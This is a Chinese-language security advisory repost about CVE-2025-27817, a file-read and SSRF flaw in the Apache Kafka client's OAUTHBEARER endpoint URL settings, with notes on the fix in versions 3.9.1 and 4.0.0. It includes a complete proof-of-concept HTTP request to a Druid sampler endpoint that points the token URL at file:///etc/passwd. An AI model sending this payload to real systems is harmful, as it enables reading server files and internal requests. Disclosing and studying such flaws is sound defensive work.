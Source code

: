 #  CVE-2025-27817 Apache Kafka 客户端：任意文件读取和 SSRF 漏洞  
 Ots安全   2025-06-13 06:05  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
Apache Kafka 客户端中发现了一个潜在的任意文件读取和 SSRF 漏洞。  
  
Apache Kafka 客户端接受用于设置与代理服务器的 SASL/OAUTHBEARER 连接的配置数据，包括“sasl.oauthbearer.token.endpoint.url”和“sasl.oauthbearer.jwks.endpoint.url”。Apache Kafka 允许客户端读取任意文件并将内容返回到错误日志中，或将请求发送到非预期位置。  
  
在 Apache Kafka 客户端配置可由不受信任方指定的应用程序中，攻击者可能会使用“sasl.oauthbearer.token.endpoint.url”和“sasl.oauthbearer.jwks.endpoint.url”配置读取磁盘和环境变量中的任意内容，或向非预期位置发出请求。具体来说，该缺陷可能在 Apache Kafka Connect 中被用来从 REST API 访问升级到文件系统/环境/URL 访问，这在某些环境（包括 SaaS 产品）中可能是不受欢迎的。  
  
自 Apache Kafka 3.9.1/4.0.0 版本起，我们添加了一个系统属性（“-Dorg.apache.kafka.sasl.oauthbearer.allowed.urls”），用于在 SASL JAAS 配置中设置允许的 URL。在 3.9.1 版本中，为了向后兼容，它默认接受所有 URL。然而，在 4.0.0 及更新版本中，默认值为空列表，用户必须明确设置允许的 URL。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tafnsxIg4f482uGZuuzWxqPqnD6C5dpXfPr64hs7B0jLAUD5KbkooJ5eicCTTqovIuUtwUjoaXPHY6Q/640?wx_fmt=png&from=appmsg "")  
  
  
```
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1Host: Accept-Encoding: gzip, deflateAccept: */*Accept-Language: en-US;q=0.9,en;q=0.8User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36Connection: closeCache-Control: max-age=0Content-Type: application/jsonContent-Length: 1617{"type": "kafka","spec": {    "type": "kafka",    "ioConfig": {      "type": "kafka",      "consumerProperties": {        "bootstrap.servers": "127.0.0.1:6666",        "sasl.mechanism": "OAUTHBEARER",        "security.protocol": "SASL_SSL",        "sasl.login.callback.handler.class": "org.apache.kafka.common.security.oauthbearer.secured.OAuthBearerLoginCallbackHandler",        "sasl.oauthbearer.token.endpoint.url": "file:///etc/passwd",        "sasl.jaas.config": "org.apache.kafka.common.security.oauthbearer.OAuthBearerLoginModule required sasl.oauthbearer.token.endpoint.url=\"http://127.0.0.1:9999/token\" sasl.oauthbearer.jwks.endpoint.url=\"http://127.0.0.1:9999/jwks\" sasl.oauthbearer.client.id=your-client-id sasl.oauthbearer.client.secret=your-client-secret sasl.oauthbearer.expected.audience=kafka sasl.oauthbearer.expected.issuer=\"http://127.0.0.1:9999\" useFirstPass=true serviceName=kafka debug=true;"      },      "topic": "test",      "useEarliestOffset": true,      "inputFormat": {        "type": "regex",        "pattern": "([\\s\\S]*)",        "listDelimiter": "",        "columns": ["raw"]      }    },    "dataSchema": {      "dataSource": "sample",      "timestampSpec": {        "column": "!!!_no_such_column_!!!",        "missingValue": "1970-01-01T00:00:00Z"      },      "dimensionsSpec": {},      "granularitySpec": {        "rollup": false      }    },    "tuningConfig": {      "type": "kafka"    }  },"samplerConfig": {    "numRows": 500,    "timeoutMs": 15000  }}
```  
  
  
  
  
  
感谢您抽出  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycNnFvFYVgXoExRy0gqCkqvrAghf8KPXnwQaYq77HMsjcVka7kPcBDQw/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycd5KMTutPwNWA97H5MPISWXLTXp0ibK5LXCBAXX388gY0ibXhWOxoEKBA/640?wx_fmt=gif "")  
  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWgdSBqOibtgiaYWjL4pkRXwycU99fZEhvngeeAhFOvhTibttSplYbBpeeLZGgZt41El4icmrBibojkvLNw/640?wx_fmt=gif "")  
  
来阅读本文  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Ljib4So7yuWge7Mibiad1tV0iaF8zSD5gzicbxDmfZCEL7vuOevN97CwUoUM5MLeKWibWlibSMwbpJ28lVg1yj1rQflyQ/640?wx_fmt=gif "")  
  
**点它，分享点赞在看都在这里**  
  
